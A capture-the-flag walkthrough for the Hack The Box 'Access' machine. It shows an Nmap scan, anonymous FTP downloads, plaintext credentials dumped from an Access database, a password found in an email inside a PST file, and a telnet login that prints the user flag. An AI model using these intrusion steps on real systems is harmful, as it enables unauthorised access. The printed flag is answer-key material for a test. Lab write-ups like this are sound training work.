 ```yaml
---
title: Access
description: 
categories: [Walkthroughs,HackTheBox,Easy]
tags: [windows,ftp,anonymous access]
image:
  path: https://labs.hackthebox.com/storage/avatars/adef7ad3d015a1fbc5235d5a201ca7d1.png
  alt: Access machine logo from hack the box
---
```


|Machine|Release Date |Operating System|Difficulty|
--------|-------------|----------------|----------|
|Access | 29 Sep, 2018|Windows         |Easy      |

## About Access

Access is an **easy** difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares can often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```










